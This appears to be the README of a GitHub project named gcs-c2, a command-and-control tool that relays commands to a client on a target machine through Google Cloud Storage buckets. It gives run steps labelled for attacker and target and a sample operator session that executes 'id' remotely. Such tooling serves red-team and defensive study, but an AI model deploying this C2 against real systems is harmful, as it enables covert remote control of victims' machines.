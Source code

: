 # gcs-c2
C2 over google cloud storage buckets

## Usage
Once you have populated service account credentials and a bucket with read/write access, run the `server`, THEN the `client`

On the attacker:
```
$ python3 server.py
```

On the target:
```
$ python3 client.py
```

Once both are up:
```
GCP Shell> list_agents
New agent registered: 263c81c7-fe3a-47ee-8a7b-5898218a77be
Agent: 263c81c7-fe3a-47ee-8a7b-5898218a77be, Status: active
GCP Shell> send_task 263c81c7-fe3a-47ee-8a7b-5898218a77be id
Sent task to agent 263c81c7-fe3a-47ee-8a7b-5898218a77be
GCP Shell> get_responses 263c81c7-fe3a-47ee-8a7b-5898218a77be
Response from 263c81c7-fe3a-47ee-8a7b-5898218a77be: Command: id
Exit code: 0
Stdout: uid=1000(titan) gid=1000(titan) groups=1000(titan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),134(wireshark),135(kismet),998(docker)

GCP Shell>
```